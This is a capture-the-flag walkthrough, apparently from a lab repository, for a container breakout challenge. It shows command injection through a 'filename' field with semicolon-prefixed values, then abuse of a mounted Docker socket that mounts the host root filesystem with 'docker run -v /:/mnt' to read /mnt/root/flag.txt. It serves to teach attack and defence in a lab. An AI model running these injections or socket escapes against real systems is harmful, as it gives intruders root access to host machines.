



# Container Breakout Walkthrough

You find the portal and the first thing you try is to display the content of the "flag.txt" file, with no luck:  
  

maybe you are able to pipe commands and excape the file content display functionality:  
  

The application is vulnerable to RCE!  

Try to display the content of the Dockerfile:  
  

The docker sock is mounted inside the container, you can leverage this!  

Check if docker is available inside the container:  
  

It is!  
So you know that the docker sock is mounted inside the container and you have the docker cli, let's try to start a new container:  
```sh
filename: ; docker run -v /:/mnt --rm -it busybox chroot /mnt sh
```  
Unfortunately you cannot open a shell:  
  

You need to do a bit of manual enumeration:  
```sh
filename: ; docker run -v /:/mnt --rm busybox ls -lah /mnt/root/
```  
  


At this point you can read that file content:  
```sh
filename: ; docker run -v /:/mnt --rm busybox cat /mnt/root/flag.txt
```  

  

Congrats! You found the flag! 🎉 🏴  


